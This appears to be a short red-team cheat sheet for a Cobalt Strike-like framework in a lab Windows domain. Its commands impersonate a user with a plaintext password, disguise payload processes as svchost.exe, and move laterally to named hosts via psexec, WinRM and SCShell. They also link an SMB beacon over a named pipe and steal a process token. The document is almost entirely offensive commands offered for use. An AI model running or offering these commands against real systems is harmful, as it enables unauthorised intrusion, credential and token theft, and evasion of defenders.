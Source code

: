 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 DUB-WEB-1 smb

jump winrm64 DUB-WEB-1 smb

jump scshell64 DUB-SQL-1 smb
```

---

```powershell
link smb 192.168.110.52 dotnet-diagnostic-1337
```

```powershell
token-store steal 3184
token-store use 0 
```